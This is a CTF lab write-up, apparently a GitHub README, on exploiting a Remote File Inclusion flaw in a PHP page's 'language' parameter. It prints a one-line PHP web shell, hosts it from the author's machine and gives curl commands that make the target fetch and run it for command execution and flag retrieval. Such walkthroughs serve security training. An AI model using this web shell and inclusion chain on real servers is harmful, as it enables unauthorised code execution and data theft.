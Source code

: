 # RFI Exploit Write-Up (Target: 10.129.29.114)

This repository documents the exploitation of a Remote File Inclusion (RFI) vulnerability on the web server at `10.129.29.114` to achieve remote code execution (RCE) and locate a flag in a Capture The Flag (CTF) challenge.

## Overview
The target web application at `http://10.129.29.114/index.php` has an RFI vulnerability in the `language` parameter, allowing inclusion of remote PHP scripts. By hosting a malicious PHP script on my machine (`10.10.14.179`), I executed commands and found the flag in `/exercise/flag.txt`.

## Prerequisites
- A Linux machine with Python 3 and curl.
- A malicious PHP script (`shell.php`).
- Network access to the target (`10.129.29.114`).

## Steps

### Step 1: Verify Remote File Inclusion (RFI)
```bash
http://10.129.29.114/index.php?language=http://10.10.14.179/index.php
```
![image](https://github.com/user-attachments/assets/43a2bcde-5069-45e1-a231-14088f58c2d8)

### Step 2: Create and Host the Malicious PHP Script
I created a PHP web shell to execute system commands:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
I hosted the script using a Python HTTP server on port 80 (my IP: 10.10.14.179):
```bash
sudo python3 -m http.server 80
```
### Step 3: Verify Remote Code Execution

I tested the RFI vulnerability by including shell.php and running the id command:
```bash
curl -s "http://10.129.29.114/index.php?language=http://10.10.14.179:80/shell.php&cmd=id" | grep uid
```
![image](https://github.com/user-attachments/assets/298834b5-eb02-4d30-93da-947cee4ddc06)

This confirmed RCE as the www-data user.

### Step 4: Explore the File System

I listed the root directory to identify potential flag locations:

```bash
curl -s "http://10.129.29.114/index.php?language=http://10.10.14.179:80/shell.php&cmd=ls%20/"
```
![image](https://github.com/user-attachments/assets/2be6a63f-ef77-4b93-adbe-d9ac293a27cb)

### Step 5: Locate the Flag
```bash
curl -s "http://10.129.29.114/index.php?language=http://10.10.14.179:80/shell.php&cmd=ls%20/<directory_name>/"
curl -s "http://10.129.29.114/index.php?language=http://10.10.14.179:80/shell.php&cmd=cat%20/<directory_name>/flag.txt"
```
## Files
`shell.php`: Malicious PHP script used for RCE.
